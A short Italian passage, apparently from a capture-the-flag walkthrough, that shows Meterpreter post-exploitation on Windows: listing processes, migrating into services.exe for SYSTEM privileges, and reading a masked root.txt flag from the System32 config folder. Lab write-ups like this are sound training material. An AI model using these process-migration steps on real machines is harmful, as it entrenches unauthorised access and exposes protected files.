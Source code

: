 Assicurati di migrare a un processo con permessi corretti (la risposta alla domanda precedente). Il processo più sicuro da scegliere è il processo services.exe. Per prima cosa, usa il comando _ps_ per visualizzare i processi e trovare il PID del processo services.exe. Migra a questo processo usando il comando _migrate PID-OF-PROCESS_

```
ps
```
668   580   services.exe  
```
migrate 668
```

Leggere il file root.txt che si trova in `C:\Windows\System32\config`
```
cat C:/Windows/System32/config/root.txt
```
```
dffxxxxxxxxxxxxxxxxxxxxxx
```

